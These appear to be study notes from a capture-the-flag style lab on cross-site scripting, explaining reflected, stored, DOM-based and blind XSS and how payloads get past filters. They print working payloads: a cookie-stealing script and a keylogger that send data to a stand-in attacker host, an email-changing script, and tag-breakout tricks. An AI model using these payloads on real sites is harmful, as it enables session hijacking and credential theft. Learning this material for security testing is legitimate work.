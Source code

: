 # Cross-Site Scripting
### Task 1 Room Brief
XSS is based on JavaScript, so a basic level of JS is required. A basic understanding of Client-Server requests is also required.

XSS is classified as an injection attack where malicious JS gets injected into a web application with the intention of being executed by other users. In this room, it will cover the different XSS types, how to create XSS payloads, how to modify your payloads to evade filters, and then end with a practical lab where you can test out skills.

### Task 2 XSS Payloads
In XSS, the payload is the JS code we wish to be executed on the target's computer. There are two parts to the payload, the intention and the modification.

The intention is what you wish the JS to actually do, and the modification is the changes to the code we need to make it execute as every scenario is different.

##### Proof Of Concept
The simpliest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on a page with a string of text

`<script>alert('xss vulnerable');</script>`

##### Session Stealing
Details of a user's session, such as login tokens, are often kept in cookies on the target's machine. The below JS takes the target's cookie, base64 encodes and then posts it to the website under the hacker's control to be logged.

`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`

##### Key Logger
This will capture anything typed on the webpage and forward it to a website under the hacker's control. This could be very damaging if the website payload was installed on accepted user logins or credit card details

`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

##### Business Logic
This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JS function. For example, imagine a JS function for changing the user's email address called `user.changeEmail()`. The payload:

`<script>user.changeEmail('attacker@hacker.thm');</script>`

### Task 3 Reflected XSS
Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

##### Potential Impact
The attacker could send links or embed them into an iframe on another website containing a JS payload to potential victims getting them to execute code on their browser, potentially revealing session or customer information

##### How to test for Reflected XSS
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)

### Task 4 Stored XSS
As the named infers, the XSS payload is stored on the web application (in a database, for example) and then gets run when other users visit the site or web page.

Example: A blog that allows for comments to be posted, but if you post a comment with script tags in them, it will be stored in their database and executed everytime someone visits the article.

##### Potential Impact
The malicious JS could redirect users to another site, steal the user's session cookie, or perform other website actions while acting as the visiting user.

##### How to test for Stored XSS
- Comments on a blog
- User profile information
- Website Listings

### Task 5 DOM Based XSS
DOM is Document Object Model and is a programming interface for HTML and XML documents. It represents the page so that programs can change the document structure, style and content. A web page is a document, and this document can be either displayed in the browser window or as the HTML source.

![[Pasted image 20220205085049.png]]

##### Exploiting the DOM
DOM Based XSS is where the JS execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JS code acts on input or user interaction.

Example: The website's JS gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JS of their choosing onto the webpage.

##### Potential Impact
Crafted links could be sent to potential victims, redirecting them to another website or steal content from the page or user's session

##### How to test for DOM based XSS
DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JS to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "**window.location.x**" parameters.

When you've found those bits, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JS methods such as **eval()**

### Task 6 Blind XSS
Blind XSS is similar to a stored XSS in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

Example: A website has a contact form where you can message a member of staff. The message doesn't get checked for any malicious code, which allows the attacker to enter anything they wish These messages then get turned into support tickets which staff view on a private web portal.

##### How to test for Blind XSS
When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.

A popular tool for Blind XSS attacks is `xsshunter`. Although it's possible to makeyour own tool in JS, this tool will automatically capture cookies, URLs, page contents and more.

### Task 7 Perfecting your payload
Level 1: Is vulnerable to the initial POC, alert('THM')

Level 2: There's an input tag, can use `">` to break out of the input tag and then do the normal script tag.

Level 3: Now the output is in a textarea tag. We can close the textarea tag and then do the normal script tag

### Task 8 Practical Example (Blind XSS)
